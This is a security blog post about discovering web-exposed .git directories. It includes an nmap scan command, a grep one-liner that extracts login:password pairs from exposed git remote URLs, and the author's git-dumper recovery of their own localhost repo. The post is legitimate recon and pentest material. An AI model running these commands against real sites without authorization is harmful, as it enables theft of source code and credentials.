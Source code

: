 ```yaml
---
layout: post
title:  "Gathering some information from web exposed git repositories"
date:   2018-08-05
categories: web
---
```

Hello folks,  
  
Last week, while i was doing recon on some websites, i noticed that we can still found some versioning repositories in production. I found some classic **.git** exposed, and in a lesser extent some **.svn** directories. I decided to gather a bunch of websites caught in the TOP Alexa in order to look for the proportion of .git exposed; with **112332** domains scanned (mixed TLDs), i found **453** .git exposed, which is only **0.4%**. Not bad.  

How to scan for web exposed git directories:  
```nmap --open -PN -n -p80,81,82,8000,8080,443,8443,9443 --script http-git -oA http-git -iL domains.lst```  
  
*N.B: this NSE script will perform HTTP requests thanks to input FQDNs (vhosting)*  
  
Some developers may clone repository specifying their login and password as part of the url, setting this remote origin in the git configuration. For example, once your nmap done, you can spot some login:password playing with this command:  

```
$ grep -A1 Remotes http-git.nmap | grep -E ":.*:[^:]*@.*" | awk '{print $2}'
https://apixxxxxx:[redacted]@github.com/apixxxxxx/apixxxxxx.git
http://deploy:[redacted]@10.0.0.4:7990/scm/[redacted]/portal.git
...
```
  
However i was looking for other information, for example:  
 - repository's activity; last commit date for each branch
 - repo directory traversal (great to download the whole repo)
 - highlights remote url
 - displays .git/config and .gitignore files
  
Knowing a bit of a [.git repository layout](https://git-scm.com/docs/gitrepository-layout) will allow to easily retrieve this information even if you don't have any directory traversal. That's why i created a bash script gathering this information which you can find [here](https://github.com/phackt/pentest#user-content-git).  
  
![image1]({{ site.url }}/public/images/git-exposed/gittool.png)
  
If a repository seems interesting and has directory traversal and/or leaks in its remote url some credentials, you can simply download or clone the repository. For example to download the whole repo you can do the following:  
```
$ wget --recursive --no-parent http://localhost/phackt.github.io/.git/ && \
cd localhost/phackt.github.io && \
git reset --hard
```  
  
Now what happens if you didn't find any creds (most of the cases) and **directory traversal is not enabled** ? I will not reinvent the wheel and advice you to read this [article](https://en.internetwache.org/dont-publicly-expose-git-or-how-we-downloaded-your-websites-sourcecode-an-analysis-of-alexas-1m-28-07-2015/) amongst others.  

```
$ curl -I http://localhost/phackt.github.io/.git/
HTTP/1.1 403 Forbidden
Date: Sat, 11 Aug 2018 17:00:04 GMT
Server: Apache/2.4.33 (Debian)
Content-Type: text/html; charset=iso-8859-1
```  
  
I gave a try to another [git dumper tool](https://github.com/arthaud/git-dumper):  
  
```
$ git clone https://github.com/arthaud/git-dumper.git && cd git-dumper
$ pip install -r requirements.txt
$ ./git-dumper.py http://localhost/phackt.github.io/.git/ /tmp/repo
[-] Testing http://localhost/phackt.github.io/.git/HEAD [200]
[-] Testing http://localhost/phackt.github.io/.git/ [403]
[-] Fetching common files
[-] Fetching http://localhost/phackt.github.io/.git/COMMIT_EDITMSG [200]
[-] Fetching http://localhost/phackt.github.io/.git/description [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/commit-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-commit.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/post-receive.sample [302]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/applypatch-msg.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-applypatch.sample [200]
[-] Fetching http://localhost/phackt.github.io/.git/hooks/pre-commit.sample [200]
...
[-] Running git checkout .
```  
  
We can now inspect our freshly rebuilt repository:  

```
$ cd /tmp/repo && ls -1
about.md
categories.md
CNAME
_config.yml
feed.xml
_includes
index.html
_layouts
POC
_posts
public
_sass
```  
  
See you soon,  
Cheers.